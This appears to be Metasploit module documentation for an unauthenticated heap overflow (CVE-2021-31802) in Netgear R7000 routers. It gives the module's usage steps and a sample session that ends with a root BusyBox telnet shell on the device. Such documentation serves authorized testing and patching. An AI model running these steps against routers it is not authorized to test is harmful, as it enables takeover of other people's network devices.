 ## Introduction
This module exploits a heap buffer overflow in the `genie.cgi?backup.cgi`
page of Netgear R7000 routers running firmware versions `1.0.11.116` and prior.
Successful exploitation results in unauthenticated attackers gaining
code execution as the `root` user.

The exploit utilizes these privileges to enable the telnet server
which allows attackers to connect to the target and execute commands
as the `admin` user from within a BusyBox shell. Users can connect to
this telnet server by running the command `telnet *target IP*`.


## Vulnerable Application

Netgear R7000 routers running firmware version `1.0.11.116` and earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce `
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Wait for the message about how to connect to the telnet shell to appear.
  7. Connect to the telnet shell by executing `telnet <RouterIP>`
  8. Verify that you now have a BusyBox shell running as the `admin` user.

## Options

## Scenarios

### Netgear R7000 with Firmware Version 1.0.11.116
```
msf > use auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce
msf auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > show options

Module options (auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > run
[*] Running module against 192.168.1.1

[*] Executing automatic check (disable AutoCheck to override)
[*] Router is a NETGEAR router (R7000)
[+] The target is vulnerable.
[*] Sending 10th and final packet...
[*] If the exploit succeeds, you should be able to connect to the telnet shell by running: telnet 192.168.1.1
[*] Auxiliary module execution completed
msf auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) >
```

And in a separate terminal shell:

```
 ~/git/metasploit-framework │ CVE-2021-31802 !1  telnet 192.168.1.1                                                ✔ │ 2.7.2 Ruby
Trying 192.168.1.1...
telnet: Unable to connect to remote host: Connection refused
 ~/git/metasploit-framework │ CVE-2021-31802 !2  telnet 192.168.1.1                                              1 х │ 2.7.2 Ruby
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.


BusyBox v1.7.2 (2020-12-21 13:01:11 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux R7000 2.6.36.4brcmarm+ #30 SMP PREEMPT Mon Dec 21 12:35:01 CST 2020 armv7l unknown
# id
uid=0(admin) gid=0(root)
#
```



